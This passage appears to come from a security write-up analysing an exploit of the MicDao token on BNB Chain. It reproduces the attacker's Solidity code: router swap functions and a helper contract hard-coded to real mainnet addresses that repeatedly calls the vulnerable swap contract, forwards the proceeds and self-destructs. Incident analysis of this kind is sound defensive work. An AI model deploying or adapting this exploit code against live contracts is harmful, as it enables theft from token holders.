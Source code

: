 ```solidity

    router.swapExactTokensForTokensSupportingFeeOnTransferTokens(
        500_000 ether,
        0,
        path,
        address(this),
        block.timestamp
    );
}

function MicDaoTousdt() internal {
    address[] memory path = new address[](2);
    path[0] = address(MicDao);
    path[1] = address(usdt);

    router.swapExactTokensForTokensSupportingFeeOnTransferTokens(
        MicDao.balanceOf(address(this)),
        0,
        path,
        address(this),
        block.timestamp
    );
}
```

The loop for creating contracts used for `swap` is as follows.

```solidity
contract HelperContract {
    IMicDaoSwap private constant SwapContract = IMicDaoSwap(0x19345233ea7486c1D5d780A19F0e303597E480b5);
    IERC20 private constant usdt = IERC20(0x55d398326f99059fF775485246999027B3197955);
    IERC20 private constant MicDao = IERC20(0xf6876f6AB2637774804b85aECC17b434a2B57168);
    address private immutable owner;

    constructor() {
        owner = msg.sender;
    }

    function work() external {
        usdt.approve(address(SwapContract), type(uint256).max);
        SwapContract.swap(2_000 ether, owner);
        MicDao.transfer(owner, MicDao.balanceOf(address(this)));
        selfdestruct(payable(owner));
    }
}
```

### Attack Flow | A Crazy Hacker

Analyzing the entire attack process of the attacker address [0xcd03](https://bscscan.com/address/0xcd03ed98868a6cd78096f116a4b56a5f2c67757d) on MicDao. (It can be observed that as of the time of writing this article, this address has initiated a significant number of transactions.)
